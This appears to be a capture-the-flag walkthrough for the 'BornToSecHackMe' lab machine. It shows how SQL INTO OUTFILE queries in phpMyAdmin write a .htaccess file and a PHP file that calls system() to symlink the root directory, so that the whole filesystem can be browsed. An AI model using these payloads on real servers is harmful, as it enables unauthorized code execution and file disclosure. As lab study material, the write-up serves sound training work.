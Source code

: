 # Apache suEXEC

After gaining access to phpMyAdmin, we can [exploit suEXEC](https://www.exploit-db.com/exploits/27397) by creating a .htaccess file in the /var/www/forum/templates_c directory to access the / folder via a symlink.

To write files, we will use the same exploit as in the previous task in phpMyAdmin.

## Step 1: Create a .htaccess file

Create a .htaccess file in the /var/www/forum/templates_c directory with the following content:

```shell
Options Indexes FollowSymLinks
```
The Indexes directive allows us to view the contents of a directory if there is no index file present.

Use the following SQL query:
```sql
SELECT 'Options Indexes FollowSymLinks' INTO OUTFILE '/var/www/forum/templates_c/.htaccess';
```
## Step 2: Create a symlink

Create a symlink to the / directory using the following SQL query:

```sql
SELECT '<?php system("ln -sf / /var/www/forum/templates_c/symlink.php"); ?>' INTO OUTFILE '/var/www/forum/templates_c/make_symlink.php';
```

After executing the query, we need to execute the PHP, so we're going to the following URL in the browser: `https://BornToSecHackMe/forum/templates_c/make_symlink.php`.

## Step 3: Access the / directory

After executing the symlink, we can access the / directory by visiting the following URL in the browser: `https://BornToSecHackMe/forum/templates_c/symlink.php/`. This will display the contents of the / directory and allow us to access any file.
